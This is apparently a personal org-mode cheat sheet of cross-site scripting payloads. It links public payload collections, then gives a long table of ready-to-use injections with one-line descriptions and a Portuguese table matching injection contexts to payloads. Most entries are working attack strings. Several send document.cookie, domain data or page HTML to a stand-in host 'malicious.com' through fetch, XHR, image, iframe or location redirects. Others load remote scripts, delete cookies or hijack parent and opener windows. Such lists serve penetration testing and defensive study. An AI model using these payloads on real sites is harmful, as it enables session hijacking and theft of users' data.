 #+title: Xss Payload List
#+author: gabriel

* Common XSS Payload List

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection
https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS
https://github.com/payloadbox/xss-payload-list
https://github.com/s0md3v/AwesomeXSS
https://github.com/pgaijin66/XSS-Payloads


Some XSS payloads may be blocked by security systems, or the payloads sent may not work due to the structure of the target system

In such cases, different payloads with varying functionalities can be used.

| Payload	Description
| <script>alert('XSS')</script>	| Displays a simple alert box, verifying that XSS is working.
| <script>alert(document.cookie)</script>	| Shows the user's cookie information.
| <script>alert(document.domain)</script>	| Displays the domain information of the page.
| <img src="x" onerror="alert('XSS')">	| Executes the alert function due to a failed image load.
| <svg/onload=alert('XSS')>	| Executes the alert function when an SVG graphic loads.
| "><script>alert('XSS')</script>	| Executes a script within an unclosed HTML tag.
| <body onload=alert('XSS')>	| Executes a script when the body tag loads.
| <iframe src="javascript:alert('XSS')">	| Runs JavaScript code within an iframe.
| <input type="text" value="<script>alert('XSS')</script>">	| Injects a script into an input field.
| javascript:alert('XSS')	| Directly executes JavaScript code through a link.
| onmouseover="alert('XSS')"	| Executes a script when the mouse hovers over an element.
| "><iframe src="javascript:alert('XSS')"></iframe>	| Runs malicious JavaScript within an iframe.
| <script src="http://example.com/malicious-code.js"></script>	| Loads and executes an external JavaScript file.
"><img src="javascript:alert('XSS')">	Executes JavaScript code through an image element.
<div style="background:url('javascript:alert('XSS')')"></div>	Executes JavaScript code within CSS.
<script>document.write('<img src="x" onerror="alert('XSS')">')</script>	Writes a script onto the document and executes XSS.
<a href="javascript:alert('XSS')">Click me!</a>	Executes JavaScript code when the user clicks the link.
<embed src="javascript:alert('XSS')">	Executes JavaScript code with an embed tag.
<object data="javascript:alert('XSS')">	Executes JavaScript code with an object tag.
<style>@import 'javascript:alert("XSS")';</style>	Executes JavaScript within a style definition.
"><style>@import 'javascript:alert("XSS")';</style>	Executes XSS within a style definition inside an unclosed HTML tag.
<script>fetch("http://malicious.com/?cookie="+document.cookie)</script>	Steals the user's cookies and sends them to the specified site.
<script>document.location='http://malicious.com/?cookie=' + document.cookie;</script>	Steals user cookies and sends them to the specified site.
<script>new Image().src='http://malicious.com/?data=' + document.domain;</script>	Steals the user's domain information and sends it to the specified site.
<script>new Image().src='http://malicious.com/?data=' + encodeURIComponent(document.body.innerHTML);</script>	Steals the page's HTML content and sends it to the specified site.
<script>fetch('https://malicious.com', { method: 'POST', body: JSON.stringify({cookie: document.cookie, location: document.location}) });</script>	Sends sensitive information such as cookies and URL details to the specified site.
<script>document.cookie='username=; expires=Thu, 01 Jan 1970 00:00:01 GMT;';</script>	Deletes the user's cookies.
<script>document.domain='malicious.com';</script>	Changes the domain of the page, potentially affecting security policies.
"><script>document.location='http://malicious.com?cookie=' + document.cookie;</script>	Sends cookie information to an external server.
"><script>document.location='javascript:alert(document.cookie)';</script>	Displays user cookie information in an alert.
"><script>document.location='javascript:alert(document.domain)';</script>	Displays domain information in an alert.
<script>xhr=new XMLHttpRequest();xhr.open('GET','https://malicious.com?cookie='+document.cookie,true);xhr.send();</script>	Sends cookie information to a server using AJAX.
<script>xhr=new XMLHttpRequest();xhr.open('GET','https://malicious.com?data='+document.domain,true);xhr.send();</script>	Sends domain information to a server using AJAX.
<script>var img=document.createElement('img');img.src='https://malicious.com?cookie='+document.cookie;document.body.appendChild(img);</script>	Steals cookie information through an image request.
<script>var img=document.createElement('img');img.src='https://malicious.com?data='+document.domain;document.body.appendChild(img);</script>	Steals domain information through an image request.
<script>document.write('<iframe src="http://malicious.com?cookie=' + document.cookie + '"></iframe>');</script>	Creates and sends an iframe containing cookie information.
<script>document.write('<iframe src="http://malicious.com?data=' + document.domain + '"></iframe>');</script>	Creates and sends an iframe containing domain information.
<script>localStorage.setItem('data', document.cookie);</script>	Saves cookie information to local storage.
<script>sessionStorage.setItem('data', document.domain);</script>	Saves domain information to session storage.
<script>top.location=document.referrer;</script>	Redirects the page source to the top frame.
<script>window.opener.location='http://malicious.com';</script>	Redirects the main page of a newly opened window to a malicious site.
<script>window.parent.location='http://malicious.com';</script>	Redirects the parent window to a malicious site.


 📊 Tabela Resumida (Contexto → Payloads)
| Contexto	| Exemplo refletido	|Payload comum
| Texto	| <p>TESTE</p>	| <script>alert(1)</script>
| Atributo	| <input value="TESTE">	| " autofocus onfocus=alert(1) x="
| Href/src	| <a href="TESTE">	| javascript:alert(1)
| Evento	| <input onmouseover="TESTE">	| alert(1)
| Script	| var x = "TESTE";	| ";alert(1);//
| DOM (URL)	| document.write(location.search)	| ?q=<img src=x onerror=alert(1)>
| CSS/style	| <div style="color:TESTE;">	| " onmouseover=alert(1) x="
